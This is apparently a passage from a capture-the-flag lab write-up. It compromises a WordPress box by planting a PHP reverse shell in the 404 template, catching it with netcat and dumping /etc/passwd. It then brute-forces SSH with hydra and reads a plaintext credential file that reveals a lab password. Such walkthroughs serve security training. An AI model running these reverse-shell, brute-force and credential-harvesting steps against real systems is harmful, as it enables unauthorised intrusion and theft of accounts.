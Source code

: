 I used this [php reverse shell](https://github.com/ivan-sincek/php-reverse-shell), modified IP and port and uploaded it to the wordpress 404 page. Now time to start netcat on the chosen port e.g.```nc -lvnp 6666``` and call a page that doesn't exist e.g.```/blog/index.php/2020/08/03/50/``` with e.g. curl.

We now get a reverse shell but no TTY so we can try this: ``` python -c 'import pty; pty.spawn("/bin/sh")'``` or this```/bin/sh -i```.

Let's have a look around:

??? output "cat /etc/passwd output"
    ``` sh
    cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
    mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
    ```

The /home path shows one user "aubreanna" so let's use this to crack ssh using hydra:

``` sh
hydra -l aubreanna -P rockyou.txt 10.10.156.30 ssh
```

In parallel we can look for files containing "aubreanna":

``` sh
find ./ -type f -iname "*.txt" -exec grep -l "aubreanna" {} \; 2>/dev/null
./opt/wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```
